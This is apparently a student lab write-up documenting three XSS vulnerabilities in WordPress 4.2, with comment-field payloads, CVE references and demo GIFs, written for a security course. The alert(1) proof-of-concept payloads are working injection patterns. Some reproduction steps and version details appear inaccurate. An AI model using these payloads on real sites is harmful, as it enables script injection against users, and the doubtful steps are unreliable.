 # CyberSecurity
Week 7 Assignment - WordPress vs. Kali

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document 3 affecting an old version of WordPress

Version of WordPress Tested: 4.2

# Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8133
2. Reference: https://core.trac.wordpress.org/changeset/33549
3. Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://i.imgur.com/AWc0xbA.gif

# Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8358
2. Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
3. Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
4. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://i.imgur.com/ZmwMJau.gif


# Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources: 
1. Reference: https://wpvulndb.com/vulnerabilities/8489
2. Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
3. Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
4. Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
5. Reference: http://avlidienbrunn.com/wp_some_loader.php
6. Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://i.imgur.com/eS4AppI.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work:
Some vulnerabilities would work once in a while even when using the same exact code. 
Recording with LiceCap wasn't in focus.

## License

    Copyright [2017] [Sunny Liang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
